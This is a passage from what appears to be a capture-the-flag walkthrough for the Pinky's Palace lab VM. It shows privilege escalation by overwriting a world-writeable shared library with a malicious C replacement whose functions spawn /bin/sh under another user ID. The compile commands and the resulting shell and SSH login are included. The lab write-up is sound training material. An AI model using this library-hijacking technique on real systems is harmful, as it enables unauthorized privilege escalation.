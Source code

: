 /lib/libpinksec.so looks promising!  Just to confirm we have the correct library: 
```  
pwndbg> info symbol psoptin  
psoptin in section .text of /lib/libpinksec.so  
```  
If we find the library itself, we see it's world-writeable, so we can just replace it with a malicious copy and then run the binary to elevate our privileges.
```  
pinksec@pinkys-palace:/tmp$ ls -la /lib/libpinksec.so  
-rwxrwxrwx 1 root root 7136 May 14 23:52 /lib/libpinksec.so  
```
I used the following code to export the same functions:
```c  
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  
int psbanner()  
{  
setreuid(1002, 1002);  
printf("ID: %d\n", geteuid());  
execve("/bin/sh", NULL, NULL);  
}  
  
int psopt()  
{  
setreuid(1002, 1002);  
printf("ID: %d\n", geteuid());  
execve("/bin/sh", NULL, NULL);  
}  
  
int psoptin()  
{  
setreuid(1002, 1002);  
printf("ID: %d\n", geteuid());  
execve("/bin/sh", NULL, NULL);  
}  
  
```  
  Compiled it using the following:
```  
pinksec@pinkys-palace:/tmp$ gcc -c -fpic evillibpinksec.c  
pinksec@pinkys-palace:/tmp$ gcc -shared -o evillibpinksec.so evillibpinksec.o  
cp ./evillibpinksec.so /lib/libpinksec.so  
```  

```  
pinksec@pinkys-palace:/tmp$ /home/pinksec/bin/pinksecd  
ID: 1002  
$ id  
uid=1002(pinksecmanagement) gid=1001(pinksec) groups=1001(pinksec)  
```  
 Boom! A shell!
 
pinksecmanagement  
-----------------  
```bash  
root@kali:~/panther# ssh -p 5555 pinksecmanagement@192.168.0.74 -i id_rsa  
Linux pinkys-palace 4.9.0-6-686 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) i686  
  
The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
pinksecmanagement@pinkys-palace:~$  
```  